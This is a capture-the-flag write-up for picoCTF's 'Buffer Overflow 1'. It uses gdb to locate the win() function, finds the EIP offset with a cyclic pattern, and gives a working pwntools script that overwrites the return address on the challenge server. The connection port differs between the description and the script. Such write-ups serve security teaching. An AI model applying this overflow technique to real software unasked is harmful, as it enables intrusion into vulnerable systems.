 # Buffer Overflow 1
## Description
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using `nc saturn.picoctf.net 49211`

## Solution
We have to find the offset of the return address and then overwrite it with the address of the win() function in order to get the flag.

So to get the address of the win() function we can use the following command:
```bash
# First we have to make the program executable
chmod +x vuln

# Then we can use the following command
gdb ./vuln
```

To get a look of all the functions in the program we can use the following command:
```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  printf@plt
0x08049050  gets@plt
0x08049060  fgets@plt
0x08049070  getegid@plt
0x08049080  puts@plt
0x08049090  exit@plt
0x080490a0  __libc_start_main@plt
0x080490b0  setvbuf@plt
0x080490c0  fopen@plt
0x080490d0  setresgid@plt
0x080490e0  _start
0x08049120  _dl_relocate_static_pie
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini
```

As we can see, the address of the win() function is `0x080491f6`.

Now we have to find the offset of the EIP register. To do that we can use the following command to create a cyclic pattern:
```bash
padding = cyclic(64)
print(padding)

# Output:
# aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
```
This pattern is then saved in a file called `pattern.txt`.

Back inside the gdb we can use the following command to send the cyclic pattern to the program:
```bash
(gdb) r < pattern.txt
```
![gdb](./gdb.png)

As we can see, the EIP register is overwritten with `0x6161616c` which is the address of the `laaa` in the cyclic pattern.

To exploit this vulnerability we can use the following script to create the payload:
```python
from pwn import *

# Inserting the EIP value
padding = cyclic(cyclic_find('laaa'))

# Filling the EIP with a function call address for Win(), containing the flag.
eip = pwnlib.util.packing.p32(0x080491f6)

# Creating the payload
payload = padding + eip
print(payload)

# Sending the payload to the program
r = remote('saturn.picoctf.net', 54100)
r.recvuntil(b"Please enter your string: \n")
r.sendline(payload)
r.interactive()
```

And just like that we get the flag!

